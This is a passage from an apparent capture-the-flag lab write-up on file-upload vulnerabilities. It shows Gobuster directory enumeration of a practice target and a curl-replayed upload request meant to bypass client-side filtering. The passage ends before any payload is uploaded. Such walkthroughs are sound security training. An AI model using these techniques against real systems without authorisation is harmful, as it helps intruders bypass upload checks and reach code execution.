 /modules was forbidden. /admin shows from with a single text input box. The input box default text reads "enter file to execute" The page reads: 
>As a reminder: use this form to activate modules from the /modules directory.

As this site is built with node.js, it's likely this will be how we trigger an uploaded exploit, rather than just navigating to the file as you might with a php site.

The strange filename of the homepage background image coupled with the provided word list makes me think that any uploads will be renamed with a random three letter combination before being stored in /content, so to be able to confirm this, I use Gobuster to get a baseline for the /content folder:

```bash
$ gobuster dir -u http://jewel.uploadvulns.thm/content/  -w UploadVulnsWordlist.txt -x .jpg
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                UploadVulnsWordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jpg
[+] Timeout:                 10s
===============================================================
2022/04/23 23:33:36 Starting gobuster in directory enumeration mode
===============================================================
/ABH.jpg              (Status: 200) [Size: 705442]
/LKQ.jpg              (Status: 200) [Size: 444808]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]

===============================================================
2022/04/23 23:50:38 Finished
===============================================================
```

## Testing
I decided to use Curl to bypass the client side filtering. I uploaded  a test .jpg file using the form, captured the request using browser dev tools and exported as a Curl command (image data replaced with BASE64_DATA_HERE for readability):

```bash
curl 'http://jewel.uploadvulns.thm/' 
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0' 
-H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' 
--compressed 
-H 'Content-Type: application/json' 
-H 'X-Requested-With: XMLHttpRequest' 
-H 'Origin: http://jewel.uploadvulns.thm' 
-H 'DNT: 1' 
-H 'Connection: keep-alive' 
-H 'Referer: http://jewel.uploadvulns.thm/' 
-H 'Sec-GPC: 1' 
--data-raw {"name":"test.jpg","type":"image/jpeg","file":"data:image/jpeg;base64,BASE64_DATA_HERE"}'
```
